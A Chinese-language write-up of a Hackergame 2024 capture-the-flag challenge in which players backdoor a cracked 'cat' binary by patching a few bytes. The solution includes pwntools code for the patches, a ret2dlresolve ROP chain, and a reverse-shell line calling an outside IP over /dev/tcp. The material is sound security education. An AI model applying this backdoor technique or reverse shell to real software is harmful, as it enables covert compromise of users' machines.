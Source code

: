 # cat 绿色破解版

题解作者：[eastXueLian](https://github.com/AvavaAYA)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：binary

- 题目分值：350

在电脑里装满了「`[0-9]{3,4}` 全家桶」、「`..` 壁纸」等软件后，小 E 同学不得不购入新电脑。

但是小 E 还是不舍得购入正版软件：「众所周知，软件破解做的事情不过是在关键地方改个跳转、NOP 掉少许指令或者清除几个字节罢了。我会仔细检查破解软件与原版软件的区别，确保只有不超过 5 字节被修改为跳转指令、NOP 指令或者 0」。

「让我来试试这个群里看到的 `cat` 绿色破解版有什么不一样」

> **上述场景和情节均为虚构，未基于任何真实事件或人物。如与现实有任何相似之处，纯属巧合。**

附件中包含从 [coreutils-9.5](https://ftp.gnu.org/gnu/coreutils/coreutils-9.5.tar.xz) 源码编译得到的 `cat` 程序。作为一名顶尖黑客，你的任务是在不引起小 E 警觉的情况下，通过魔改 `cat` 程序来控制他的新电脑。

你可以在原程序的基础上篡改至多五字节，需要满足以下条件：

1. 只能修改代码段从 `_start` 函数到 `_term_proc` 函数之间的内容
2. 修改的偏移量之间相差不能小于 8
3. 小 E 会依次检查每个改动的字节，确保它们属于跳转指令、NOP 指令或者零；**其中小 E 会有一次眼花**

检查脚本见附件 `xiao_E_checker.py`。

在修改完成后，小 E 会进行功能上的验证，包括：

1. 检查 cat 的输出是否正确：`cat secret`
2. 与你通过标准输入进行交互：`cat secret -`

你的目标是传入特定的数据，触发植入的后门，从而将自己的大名留在小 E 新电脑的 `/dev/shm/hacked` 文件中获取 flag。

**[点击下载题目附件](files/green_cat.zip)**

你可以通过 `nc 202.38.93.141 31339` 来连接，或者点击下面的「打开/下载题目」按钮通过网页终端与远程交互。

> 如果你不知道 `nc` 是什么，或者在使用上面的命令时遇到了困难，可以参考我们编写的 [萌新入门手册：如何使用 nc/ncat？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/)

[打开/下载题目](http://202.38.93.141:31340/?token={token})

## 题解

本题的 idea 是 [@zzh1996](https://github.com/zzh1996) 的。我做了实现。

题目模拟了一个破解软件植入后门的场景：通过修改跳转指令或者 `NOP` 部分字节植入隐蔽的后门，最终实现任意代码执行。

笔者选择了逻辑相对简单的 cat 程序并将目光放在 `simple_cat` 函数中：

- 前两处 patch 都是针对 `safe_read (input_desc, buf, bufsize)` 和 `full_write (STDOUT_FILENO, buf, n_read)` 中的 `buf`。在函数中 `buf` 作为实参被放在栈上，在使用时表示为 `QWORD PTR [rbp-0x38]`。为避免影响 `canary`，可以通过清零相应字节把缓冲区转移到主函数的栈底，即 `QWORD PTR [rbp]`。现在拥有了栈溢出劫持控制流的能力。

- 为了避免传入 `EOF`，可以选择将写任意字节的能力用于修改跳转 `0x402f9c: je 0x402ef9 <simple_cat+0x15>`，使 `simple_cat` 经过一轮 `read` / `write` 后就直接返回。

- 但是发现主函数中会执行 `close(0)`，故定位到其前面的条件判断，修改 `0x4041ca: je 0x40422c <main+0xa1d>` 中的跳转指令为 `jne`。现在拥有了任意地址读写的能力。

```python
    io.recvuntil(b"[*] How many bytes do you want to modify?")
    io.sendline(i2b(4))
    io.recvuntil(b"[*] Enter offset: ")
    io.sendline(i2b(0x2F87 + 3))
    io.recvuntil(b"[*] Enter data: ")
    io.sendline(i2b(0))

    io.recvuntil(b"[*] Enter offset: ")
    io.sendline(i2b(0x2F03 + 3))
    io.recvuntil(b"[*] Enter data: ")
    io.sendline(i2b(0))

    io.recvuntil(b"[*] Enter offset: ")
    io.sendline(i2b(0x41CA))
    io.recvuntil(b"[*] Enter data: ")
    io.sendline(i2b(0x75))

    io.recvuntil(b"[*] Enter offset: ")
    io.sendline(i2b(0x2F9E))
    io.recvuntil(b"[*] Enter data: ")
    io.sendline(i2b(0xDA))
    io.recvuntil(b"RUNNING!\n")
```

关于利用，笔者希望通过 `ret2dlresolve` 来实现 `getshell`，利用方法如下：

```python
my_buf = 0x40D000 + 0x480
l_addr = libc.sym.system - libc.sym.free
r_offset = my_buf + 0x200 - l_addr
fake_rel_addr = my_buf + 0x38

if l_addr < 0:
    l_addr = (1 << 64) + l_addr

dynstr = elf.get_section_by_name(".dynstr").header.sh_addr
plt0 = elf.get_section_by_name(".plt").header.sh_addr
read_plt = elf.plt.read

somegadget_2_ctl_rdx_0 = (
    0x0000000000402BBC  # cmp dword ptr [rbp - 4], 0x5f ; sete al ; pop rbp ; ret
)
somegadget_2_ctl_rdx_1 = 0x0000000000407E75  # pop rdx ; jg 0x40810a
ctl_rdi = 0x0000000000406E0E  # pop rdi ; pop rbp ; ret
ctl_rsi = 0x0000000000406E0C  # pop rsi ; pop r15 ; pop rbp ; ret
ctl_rbp = 0x000000000040285D  # pop rbp ; ret

payload = flat(
    {
        8: [
            ctl_rbp,
            0x40D2A0 + 4,
            somegadget_2_ctl_rdx_0,
            0x40D2A0 + 4,
            somegadget_2_ctl_rdx_1,
            0x200,  # rdx
            0,  # rbp
            ctl_rdi,  # ret
            0,
            0,
            ctl_rsi,
            my_buf,
            0,
            0,
            read_plt,
            ctl_rbp + 1,
            ctl_rdi,
            my_buf + 0x100,
            0,
            0x402026,
            my_buf,
            0,
        ]
    }
)
io.send(payload)

payload = flat(
    {
        0x00: [l_addr],
        0x08: [0x05, dynstr],
        0x18: [0x06, 0x40D000 - 8],
        0x28: [0x11, fake_rel_addr],
        0x38: [r_offset, 7],
        0x68: [
            my_buf + 0x08,
            my_buf + 0x18,
        ],
        0xF8: [my_buf + 0x28],
        0x100: b"bash -i >& /dev/tcp/192.168.50.30/2299 0>&1\x00",
    },
)
io.send(payload)
```

为了增加趣味性，简化最后一步利用，题目要求选手将 `hacked by xxx` 写入 `/dev/shm/hacked` 以得到 flag。不过这也使得 `open` + `write` 的 `ROP` 链就能完成目标，在不 `getshell` 的情况下可以只用 2 字节的修改拿到 flag，代码见 [open_write_exp.py](src/open_write_exp.py)。

完整利用代码见 [green_cat-exp.py](./src/green_cat-exp.py)。

---

## 出题思路提供者的话

本节作者：[@zzh1996](https://github.com/zzh1996)

我其实很早就想过一个问题：如果下载到一个破解版软件，然后跟原版 diff 发现只是修改了其中的两个跳转指令，或者 NOP 掉了一些检查，那我们是否可以相信，运行这个破解版（不考虑软件原作者故意搞事情）是否可以相信是安全的？

我想了想应该不能保证是安全的，所以就想出这道题。然而我不太会 pwn，所以跟 [eastXueLian](https://github.com/AvavaAYA) 说了一下想法，他把这个思路出成了题。虽然也不是完全还原这个场景，但是我觉得还是蛮有趣的。如果把 cat 换成一些更复杂的软件，说不定改一个字节就可以做到类似效果。
